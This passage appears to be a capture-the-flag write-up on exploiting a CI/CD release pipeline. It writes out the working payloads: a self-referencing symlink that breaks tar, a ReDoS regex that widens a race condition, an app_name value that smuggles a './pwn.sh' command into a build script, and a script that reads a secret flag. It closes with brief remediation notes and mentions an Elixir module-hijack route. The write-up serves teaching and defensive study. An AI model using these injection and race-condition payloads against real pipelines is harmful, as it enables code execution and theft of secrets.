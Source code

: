 To do this, we first need the command to make tar fail. This is pretty simple, you can just go into the src directory of the repo we are bundling, and run `ln -s mylink mylink`. This creates a synlink mylink that points to itself, which tar will freak out on and fail.

The second is to put really slow regex into the regix tags, for example, you can use this as the second release job:
```
<job name="release">
    <input name="app_name">my-git-application-v2-aaaabaaacaaadaaaeaaafaaagaaah0123456789a123456789b12./pwn.sh #3456789d1234567aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa #</input>
    <input name="release_name">a</input>
    <input name="deploy_commands">aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</input>
    <input name="censor-regex">a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?a?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</input>
</job>
```
This will make the regex take a long time to run, and will slow down the job creation process.

This sets up our race condition, so with the full actor file, the first script is running:
```
#!/bin/bash
echo 'Releasing {%= app_name %}'

tar -czhf '/releases/a.tar.gz' $REPO_ROOT || sleep 5
./pwn.sh #3456789d1234567aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa #
echo "release" | tee /pr-status/status

echo "all done"
```
Where that middle line that runs our script is there because of the race condition between the two threads.

The final step is just to create that pwn.sh script and put it in the right place. This is a simple bash script that will run the secrets binary, and print out the flag.

```bash
#!/bin/bash
secrets access flag2
```

We can create the git bundle in the same way, and watch the second flag come in!

## Remediation

The simplest way to fix this is to not allow the rest of the script to run if the git switch fails. This will prevent us from pulling into the main branch, so we cant control the actor.x file and cant run our own jobs.

That said, CICD pipelines like this are very hard to secure, and against this challenge, there exists a variaty of problems, including the fact that elixer looks in the current directory for imports before going to the system path, so if you provide, for example, a timer module, it will use that instead of the system one and give another route to RCE.
